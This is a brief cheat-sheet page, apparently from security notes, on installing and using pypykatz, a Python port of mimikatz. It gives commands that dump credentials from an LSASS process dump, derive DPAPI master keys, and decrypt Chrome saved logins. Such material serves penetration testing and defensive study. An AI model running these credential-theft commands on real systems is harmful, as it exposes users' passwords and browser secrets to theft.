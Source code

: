 # pypykatz

<div class="row row-cols-lg-2"><div>

[pypykatz](https://github.com/skelsec/pypykatz) <small>(2.7k ⭐)</small> is a python port of [mimikatz](mimikatz.md) that works on any operating system including Linux.

You should use `pipx` to install it:

```ps
$ pipx install git+https://github.com/skelsec/pypykatz.git
$ pypykatz -h
```

The documentation is available [here](). Note down that it's separated between `Live commands`, and `Platform-independent commands`.
</div><div>

Extract credentials from [LSASS](/operating-systems/windows/security/index.md#dump-credentials-from-lsass-process) process dump.

```shell!
$ pypykatz lsa minidump lsass.dmp
```

Extract the [DPAPI](/operating-systems/windows/security/index.md#dump-credentials-protected-by-the-dpapi) master key.

```shell!
$ pypykatz dpapi prekey password S-A-B-C-D-E-F-G password -o ./prekey
$ pypykatz dpapi masterkey ./H-I-J-K-L ./prekey -o mkf
```

Extract chrome secrets using the DPAPI master key.

```shell!
$ pypykatz dpapi chrome ./mkf "./Local State" --logindata "./Default/Login Data"
```
</div></div>